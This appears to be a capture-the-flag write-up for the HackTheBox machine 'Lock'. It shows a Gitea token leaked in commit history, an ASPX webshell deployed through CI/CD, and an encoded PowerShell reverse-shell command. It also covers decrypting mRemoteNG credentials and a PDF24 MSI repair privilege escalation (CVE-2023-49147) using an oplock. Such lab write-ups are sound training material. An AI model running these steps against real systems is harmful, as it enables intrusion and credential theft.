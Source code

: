 +++
tags = ["hackthebox", "easy", "gitea", "mremoteng", "pdf24creator", "oplock", "windows"]
difficulty = "easy"
date = "2025-08-31"
description = "Lock Writeup"
linktitle = ""
title = "[EASY] Lock"
slug = "lock"
type = "post"
+++

[Link to the room!](https://app.hackthebox.com/machines/Lock/)

## Enumeration

### Nmap

Run the usual Nmap scan: 

```bash
❯ nmap -T5 -sCV -Pn -n 10.129.138.27
```

```txt
Nmap scan report for 10.129.138.27
Host is up (0.071s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
...
445/tcp  open  microsoft-ds?
3000/tcp open  http          Golang net/http server
...
|_http-title: Gitea: Git with a cup of tea
3389/tcp open  ms-wbt-server Microsoft Terminal Services
...
```

Three key services are identified: a web server running on port 80, another running Gitea on port 3000, and finally RDP on port 3389.

Accessing gitea on port 3000 reveals we can access a public repository (ellen.freeman/dev-scripts):  

![](/writeups/hackthebox/lock/gitea_explore.png)

## Exploitation
### Secrets exposed in git history

Even though repos.py uses the environment variable GITEA_ACCESS_TOKEN, accessing the commit history reveals that for the first commit (dcc869b175a47ff2a2b8171cda55cb82dbddff3d), this wasn't the case...

![](/writeups/hackthebox/lock/gitea_leak.png)

With the access token we found, we can interact with the Gitea API impersonating the ellen.freeman user by appending the following header to every HTTP request:

```txt
Authorization: token 43ce39bb0bd6bc489284f2905f033ca467a6362f
```

This way, running a GET request to /api/v1/repos/search, a private repository named 'website' is identified from the object returned in the response:

```json
{
  "id": 5,
  "owner": {
    "id": 2,
    "login": "ellen.freeman",
    ...
  },
  "name": "website",
  "full_name": "ellen.freeman/website",
  ...
  "private": true,
  "clone_url": "http://localhost:3000/ellen.freeman/website.git",
  ...
  "permissions": {
    "admin": true,
    "push": true,
    "pull": true
  },
  ...
}
```
The repository is private, but we can push code to it if authenticated with the ellen.freeman user.


### Exploiting automated CI/CD integration

The repo can be cloned running the following command:

```bash
git clone "http://10.129.138.27:3000/ellen.freeman/website.git" 
```

and specifying the username as ellen.freeman and the access token as the password.

We can quickly identify that this repo corresponds to the server deployed on port 80, and the readme.md file reveals that changes are automatically deployed to it.

readme.md:
```md
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
```

From your initial enumeration you should've identified the tech stack on the server running on port 80, thus identifying the following header:

```txt
X-Powered-By: ASP.NET
```

Therefore, we can attempt to get an ASPX webshell deployed on the server. I decided to copy the one from Kali to the repository, then commit and push the changes. I did this with VSCode, although it can be perfectly done in bash. The root for the ASPX webshell in Kali is:

```txt
/usr/share/webshells/aspx/cmdasp.aspx
```

After deploying, we can verify code execution:

![](/writeups/hackthebox/lock/webshell.png)

From here, you may decide to get a reverse shell going on. I did so via the powershell base64 encoded command:

```txt
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsA...
```

## Privilege Escalation
### ellen.freeman -> gale.dekarios

In ellen.freeman's Documents directory, a config.xml file can be seen. This file is an mRemoteNG connection file that contains encrypted credentials for the gale.dekarios user.

```xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections ...>
    <Node Name="RDP/Gale" ... Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ... />
</mrng:Connections>
```

The password found can be decrypted using the Python script found in [this repository](https://github.com/kmahyyg/mremoteng-decrypt): 

```bash
❯ python3 mremoteng_decrypt.py -s TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==
Password: ty8wnW9qCKDosXo6
```

Then, login via RDP:

```bash
❯ xfreerdp3 /v:10.129.138.27 /u:gale.dekarios /p:ty8wnW9qCKDosXo6 
```
![](/writeups/hackthebox/lock/rdp_evidence.png)

The user flag will be in the Desktop.

### gale.dekarios -> SYSTEM
Ngl this privesc is pretty cool.

A quick Google search will reveal that PDF24 (found in the desktop) is vulnerable to CVE-2023-49147, a local privilege escalation escloit via the MSI Installer file, which produces a visible cmd.exe window running as SYSTEM when using the 'repair' function. [More info here, really, check it out!](/research/lpi/cve-2023-49147/). 

To exploit this vulnerability, first you must set an OpLock on C:\Program Files\PDF24\faxPrnInst.log so that the cmd window running as SYSTEM does not close. To do this, download SetOpLock.exe from the releases of [this repository.](https://github.com/googleprojectzero/symboliclink-testing-tools)

Then, transfer the executable to the box and launch it with the following parameters:

![](/writeups/hackthebox/lock/oplock.png)

Then, go to 'Apps & Features' and hit 'Modify' on PDF24 Creator:

![](/writeups/hackthebox/lock/uninstall.png)

Click 'Repair' and 'Repair':

![](/writeups/hackthebox/lock/repair.png)

Proceed with the installation process until you reach this black cmd.exe window:

![](/writeups/hackthebox/lock/black_window.png)

Right click on the header -> Properties -> legacy console mode:

![](/writeups/hackthebox/lock/legacy_mode.png)

**IMPORTANT**: Do not open with Microsoft Edge or Internet Explorer, as these processes won't open as SYSTEM on Windows 11.

Then hit CTRL+O, type cmd.exe and hit enter:

![](/writeups/hackthebox/lock/open_cmd.png)

Then open it from the Downloads tab, and the resulting CMD will run as SYSTEM.

![](/writeups/hackthebox/lock/privesc.png)

You can find the flag on the Administrator user's Desktop. Pretty cool huh?